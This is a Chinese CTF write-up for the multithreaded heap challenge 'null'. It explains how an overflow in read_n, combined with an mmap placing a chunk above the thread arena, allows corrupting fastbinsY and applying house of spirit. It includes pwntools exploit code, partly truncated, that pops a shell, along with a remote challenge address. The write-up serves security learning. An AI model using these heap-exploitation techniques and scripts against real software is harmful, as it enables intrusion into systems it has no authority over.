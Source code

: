 ```python
cn.recvuntil('choice>>')
cn.sendline('3')
cn.sendline('echo shell')
cn.recvuntil('shell')
success('get shell')
cn.interactive()
```

### pwn - null

首先这题是一道多线程题,程序的主体都在多线程中.

程序提供了system函数,还在bss上放了一个函数指针,因此我们只要能够把heap改到bss上就利用成功了.

![](n1ctf_qwb_f2cb15d7de807429319d56700e39e8d3.png)

漏洞点很好发现,在`read_n`中

![](n1ctf_qwb_8321ea5ee105df4c1954b922318929cd.png)

差不多能够溢出一个size的大小.

很关键的一点是这题没有free

本来设想过利用house of force,但这题是64位的,`read_int`读取不了那么大的大小.
后来又想用house of orange,但是调试后发现,多线程的`sys_malloc`逻辑和单线程的完全不同,你去修改topchunk大小他根本不理你,人家从arena中取.

后来在测试中发现,当heap大小达到一定程度时,系统会mmap,而新mmap出的page比原heap低,而线程的arena是在heap段的段首的.

![](n1ctf_qwb_e78d1bcb8a5ad49bbc5c859acad11973.png)

大小合适的时候,有一个chunk会刚好分配在arena的上面,且两个段间没有间隔
![](n1ctf_qwb_79db6d9d2dd89173e6f8fd603fc9b3cf.png)

这个时候我们就可以去改arena的fastbinsY,构造一个假的chunk出来,然后 house of sprit

![](n1ctf_qwb_c9a552cee94fe862272acf1d70a407c3.png)

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 1

if local:
	#cn = process(['/home/veritas/glibc/so/2.23/lib/ld-linux-x86-64.so.2','--library-path','/home/veritas/glibc/so/2.23/lib/','./null'])
	cn = process('./null')
	#bin = ELF('./null')
else:
	cn = remote('47.98.50.73', 5000)


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()

def call_read(Len,Pad,s='',content=0):
	cn.recvuntil('Action: ')
	cn.sendline('1')
	cn.recvuntil('Size: ')
	cn.sendline(str(Len))
	cn.recvuntil('Pad')
```